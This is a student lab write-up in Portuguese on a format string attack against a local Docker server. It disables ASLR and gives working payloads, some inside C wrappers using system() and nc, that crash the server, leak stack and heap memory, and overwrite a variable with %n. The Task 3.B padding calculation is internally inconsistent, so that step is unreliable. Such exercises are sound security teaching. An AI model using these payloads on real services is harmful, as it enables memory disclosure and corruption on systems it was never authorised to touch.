




# Format String Attack

## Setup

Começamos por desligar o ASLR (*Address Space Layout Randomization*).

```bash
$ sudo sysctl -w kernel.randomize_va_space=0
```

O program.c foi compilado usando a flag `-z execstack` para permitir que o código dentro da stack seja executado.

Abrimos 2 terminais, um para usar o Docker e o outro para comunicar com os servidores. Enviando a seguninte string:

```bash
$ echo hello | nc 10.9.0.5 9090
```

O servidor retorna:
 - endereço do buffer de input
 - endereço da mensagem secreta
 - o endereço inicial e final de uma variável `target`
 - frame pointer da função `myprintf`

## Task 1

Para crashar o servidor bastou inserir a seguinte string de input:

```bash
$ echo %s | nc 10.9.0.5 9090
```

O servidor não retornou a mensagem `"Returned Properly"`, logo crashou.

## Task 2

### Task 2.A

Para imprimir os primeiros 4 bytes do input a partir da format string, é necessário que o input contenha um valor conhecido para ser mais facilmente identificado. Usaremos `ABCD`, que em hexadecimal é `41424344`. 

A ideia inicial é dar como input `ABCD` concatenado com vários `%08x`.

```bash
echo ABCD%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X | nc 10.9.0.5 9090
```

O output do servidor foi:

```
ABCD112233440000100008049DB5080E5320080E61C0FFCA70A0FFCA6FC8080E62D4080E5000FFCA706808049F7EFFCA70A0000000000000006408049F47080E5320000004D7FFCA71A5FFCA70A0080E53200848F720000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000003F8AA100080E5000080E5000FFCA768808049EFFFFCA70A000000105000005DC080E5320000000000000000000000000FFCA77540000000000000000000000000000010544434241
```

O final `44434241` é o endereço da string `ABCD` dado como input, mas com os bytes invertidos.

Entre `ABCD` e `44434241` existem 504 caracteres e cada endereço é constituido por 8 caracteres, então existem 504/8 = 63 endereços na stack entre a format string e o buffer.

Podemos assim concluir que nesta configuração, para imprimir os primeiros 4 bytes do input inicial temos de criar uma string com exatamente 64 `%x`: os primeiros 63 para mostrar os endereços intermédios e o último para mostrar os 32 bits iniciais do input.

### Task 2.B

Nesta tarefa queremos dar print a uma string presente na Heap que, segundo o servidor, se encontra no endereço `0x080b4008`.

O endereço `0x080b4008` é escrito como `\x08\x0b\x40\x08`. Colocámos este endereço no início do input seguido de 63 `%08x` e um `%s`.

```c
#include <string.h>
#include <stdlib.h>

int main() {
    char cmd[296] = "echo \x08\x40\x0b\x08%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X %s | nc 10.9.0.5 9090";
    
    system(cmd);
    return 0;
}
```

O output do lado do servidor foi o seguinte:



Conclui-se então que a mensagem do endereço é `"A secret message"`.

## Task 3

### Task 3.A

Nesta tarefa vamos mudar o valor da variável `target`. O seu valor inicial é `0x11223344` e o endereço é `0x080e5068`.

O código que foi executado:

```c
#include <string.h>
#include <stdlib.h>

int main() {
    char cmd[296] = "echo \x68\x50\x0e\x08%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X %n | nc 10.9.0.5 9090";
    
    system(cmd);
    return 0;
}
```

O output do servidor:



### Task 3.B

O valor de `target` deve ser alterado para um valor definido: `0x5000`, que corresponde a `20480` em decimal. Como o input é de grande dimensão, usamos a notação `%.NX`, com N = 20408 - 4 - 63*8 = 19980, para escrever os 19980 que faltam com o valor 0. 

```c
#include <string.h>
#include <stdlib.h>

int main() {
    char cmd[] = "echo \x68\x50\x0e\x08%.19980X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%n | nc 10.9.0.5 9090";

    system(cmd);
    return 0;
}
```

Originando o seguinte output:


